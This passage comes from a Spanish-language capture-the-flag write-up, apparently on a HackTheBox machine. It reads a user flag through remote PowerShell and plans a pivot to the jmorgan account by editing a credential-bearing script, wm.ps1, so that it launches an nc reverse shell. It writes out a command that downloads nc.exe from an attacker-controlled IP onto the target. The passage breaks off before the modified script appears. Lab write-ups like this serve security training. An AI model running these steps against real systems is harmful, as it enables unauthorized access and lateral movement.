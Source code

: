<figure><img src="../../../../../.gitbook/assets/2698_vmware_I6OQWsuGKT.png" alt=""><figcaption></figcaption></figure>

Al revisar el directorio de _**Desktop**_ del usuario que disponemos, verificamos que hemos podido comprobar la flag de **user.txt**.

{% code overflow="wrap" %}
```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { ls C:\Users\imonks\Desktop }

Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { type C:\Users\imonks\Desktop\user.txt }
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/2699_vmware_T9sb0alf0W.png" alt=""><figcaption></figcaption></figure>

## Pivoting to jmorgan

### Abusing a PowerShell file to get remote command execution as another user - User Pivoting

En la misma carpeta de _**Desktop**_ del usuario que disponemos actualmente (_**imonks**_), verificamos que nos aparece un archivo llamado _**wm.ps1**_ que contenía el siguiente contenido.

Se trata de un Script en PowerShell que utiliza las credenciales del usuario _**jmorgan**_ a través de un SecureString y lo que realzia es ejecutar el comando (Get-Volume) en el equipo que nos encontramos actualmente (_**Acute-PC01**_) haciendo uso de esas credenciales.

{% code overflow="wrap" %}
```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { ls C:\Users\imonks\Desktop\wm.ps1 }

Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { type C:\Users\imonks\Desktop\wm.ps1 }
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/2700_vmware_S7JqEyJSfN.png" alt=""><figcaption></figcaption></figure>

El objetivo será intentar modificar el script para que ejecute otra instrucción en vez de la indicada (Get-Volume), en este caso, haremos que ejecute un "nc" para entablarnos una Reverse Shell a nuestro equipo. Subiremos el binario de _**nc.exe**_ en (C:\Utils).

```powershell
IWR -Uri http://10.10.16.7/nc.exe -Outfile C:\Utils\nc.exe
```

<figure><img src="../../../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Lo primero será reemplazar a través de la función _**-Replace**_ el contenido y a través de _**Set-Content**_ trataremos de sobreescribir el archivo existente por el contenido nuevo modificado.
